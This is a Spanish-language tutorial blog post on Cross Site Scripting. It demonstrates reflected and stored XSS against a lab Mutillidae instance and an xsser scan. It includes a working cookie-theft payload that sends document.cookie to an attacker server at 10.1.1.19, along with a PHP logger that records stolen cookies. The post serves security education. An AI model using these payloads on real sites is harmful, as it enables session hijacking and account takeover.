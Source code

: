 ```yaml
---
date: 2023-01-01T04:23:05.000Z
layout: post
comments: true
title: Cross Site Scripting (XSS)
subtitle: 'Vulnerabilidad'
description: >-
image: >-
    http://imgfz.com/i/NSOtC6A.jpeg
optimized_image: >-
    http://imgfz.com/i/NSOtC6A.jpeg
category: ciberseguridad
tags: 
  - hacking
  - exploit
  - vulnerabilidad
  - reflejado
  - robo
  - cookie
  - persistente
author: Felipe Canales Cayuqueo
paginate: true
---
```


Es una vulnerabilidad que permite a un atacante controlar parte del contenido de una aplicación web, al explotar un XSS, el atacante puede realizar algunas de las siguientes opciones:

* Modificar contenido de el sitio.
* Inyectar contenido malicioso.
* Robar cookies de sesión.
* Realizar acciones en la aplicación web como si fuera un usuario legítimo.
* Entre otros.

Las vulnerabilidades XSS se producen cuando una aplicación web utiliza entradas de usuario no filtradas para construir el contenido de salida que se muestra a sus usuarios finales; esto permite a un atacante controlar el código HTML y JavaScript de salida, en donde la entrada de uso es cualquier parámetro procedente del lado del cliente de la aplicación web como por ejemplo:

* La peticiones en las cabeceras.
* Las cookies.
* Entradas de un formulario.
* Parámetros POST y GET.

### Identificación de Vulnerabilidad

La forma más simple de verificar un Cross Site Scripting es por medio de la siguiente inyección:

```js
<script>alert('XSS')</script>
```

![xsssimpletest1](/images/xsstest1.png)

![xsssimpletest2](/images/xsstest1result.png)

Otra opción de verificación es por medio de la herramienta ```xsser```, en donde por medio de ```Burpsuite``` se consigue el target siguiente:

![burpxss](/images/xsstest1burp.png)

En la parte en que dice "test", se reemplaza por "XSS" y ejecutamos ```xsser``` con los siguiente parámetros:

```bash
┌──(root㉿kali)-[/XSS]
└─ xsser --url 'http://10.1.1.37/multillidae/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```

Y como se aprecia encontró la vulnerabilidad existente en este sitio web:

![xssertest1](/images/xsstest1xsser.png)

Otras opciones que se pueden tener en consideración son las siguientes:

|Opción   |Descripción  |
|-------------|----------|
|--auto|Aplica múltiples payloads para verificar la vulnerabilidad.|
|--Fp|Con este parámetro se puede testear un payload propio, ocupando la siguiente forma como ejemplo, ``` --Fp "<script>alert('XSS')</script>"``` |

Para este caso se habla de un XSS reflejado, pues los ataques reflejados se producen cuando la carga maliciosa se transporta dentro de la solicitud que el navegador de la víctima envía al sitio web vulnerable.

Pueden desencadenarse mediante la publicación de un enlace en una red social o a través de una campaña de phishing. Cuando los usuarios hacen clic en el enlace, desencadenan el ataque.

#### Ejemplo 2 de XSS Reflejado

Otra opción para explotar un XSS reflejado, es por medio del URL, como sucede en la siguiente situación:

![xssurl](/images/xsstest1url.png)

Para esta situación se pueden aplicar cierto filtros de URL Encode:

![xssurlencode](/images/xsstest1url2.png)


### XSS Persistente

Los ataques XSS persistentes se producen cuando la carga útil se envía al servidor web vulnerable y luego se almacena, es decir, el código malicioso se entrega cada vez que un navegador web accede a la página web inyectada.

Un ejemplo es el siguiente en que siempre mostrará la cookie de sesión del usuario, las veces que se ingrese a la web:

![xsssimplecookie](/images/xsstest2.png)

![xsssimplecookieresonse](/images/xsstest2persistentone.png)

Y si se recarga la web infectada, seguiremos recibiendo como una respuesta persistente la cookie de sesión:

![xsssimplecookiereload](/images/xsstest2reload.png)

![xsssimplecookiereloadpersist](/images/xsstest2reloadpersist.png)


### XSS Robo de Cookie

Tal como se mostró en el ejemplo anterior existe la opción de que por medio de un Cross Site Scripting se roben cookies de sesión, pero para esta situación enviaremos las cookies a un servidor que simule el del atacante, a través del siguiente archivo en php:

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

Luego para poder recibir las cookies nos montamos un servidor con python verificando que en la carpeta en que se inicie se encuentre el archivo ```log.php```:

```bash
┌──(root㉿kali)-[/XSS]
└─ ls
log.php

┌──(root㉿kali)-[/XSS]
└─ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Para este ejemplo inyectaremos el siguiente payload, el cual genera un objeto imagen y apunta su "src" a un script en el servidor del atacante (10.1.1.19):

```js
<script>var i = new Image(); i.src="http://10.1.1.19/log.php?q="+document.cookie;</script>
```

![xssservercookie](/images/xsstest3.png)

Y recibimos la cookie en nuestro servidor:

![xssservercookieresponse](/images/xsstest2pythonrec.png)

Este se recibirá las veces que se ingrese a la página web atacada:

![xssservercookiereload](/images/xsstest3reload.png)

![xssservercookiereloadpy](/images/xsstest3reloadpython.png)


### Recomendación

Todos estos canales de entrada deben ser validados por el servidor mediante funciones de seguridad bien implementadas que deben desinfectar o filtrar la entrada de los usuarios.
